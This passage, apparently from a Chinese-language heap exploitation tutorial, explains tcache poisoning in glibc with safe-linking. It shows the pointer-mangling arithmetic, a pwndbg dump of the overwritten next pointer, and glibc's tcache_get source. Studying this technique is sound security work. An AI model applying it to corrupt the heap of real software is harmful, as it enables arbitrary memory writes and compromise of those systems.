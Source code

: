 a->next 的计算：  
free(a) 的时候，tcache bin 为空，所以 a->next 的值为 (&(a->next)>>12)^0，即

```
0x555555757290>>12 = 0x0000000555555757
0x0000000555555757^0 = 0x0000000555555757

```

b->next 的计算：  
free(b) 的时候，tcache bin 的链表头是 a，所以 b->next 的值为 (&(b->next)>>12)^&a，即

```
0x5555557572c0>>12 = 0x0000000555555757
0x0000000555555757^0x5555557572a0 = 0x00005550002025f7

```

接下来修改 b->next，原本是指向 a 的地址，修改成 target_addr。

```
b->next = (&(b->next)>>12)^target_addr
0x0000000555555757^0x7fffffffda70 = 0x7ffaaaaa8d27

```

```
pwndbg> x/10gx 0x555555757290
0x555555757290: 0x0000000000000000      0x0000000000000021
0x5555557572a0: 0x0000000555555757      0x717c9bfd688b67c2
0x5555557572b0: 0x0000000000000000      0x0000000000000021
0x5555557572c0: 0x00007ffaaaaa8d27      0x717c9bfd688b67c2
0x5555557572d0: 0x0000000000000000      0x0000000000020d31

```

再连续申请两个 chunk，第一个 chunk 申请到了 b，再次申请到的 c 就会是 target_addr。

```
if (tc_idx < mp_.tcache_bins && tcache && tcache->counts[tc_idx] > 0)
{
    victim = tcache_get (tc_idx);
    return tag_new_usable (victim);
}
 
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}

```
